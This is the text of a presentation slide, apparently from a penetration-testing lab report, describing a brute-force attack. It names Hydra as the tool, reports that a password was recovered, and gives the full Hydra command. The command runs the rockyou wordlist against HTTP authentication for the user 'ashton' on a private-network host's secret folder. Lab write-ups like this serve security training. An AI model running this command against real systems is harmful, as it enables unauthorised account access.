

# Exploitation: [Brute Force Attack]
01

02

03

Tools & Processes
Hydra

Achievements
I was able to retrieve a correct password

hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder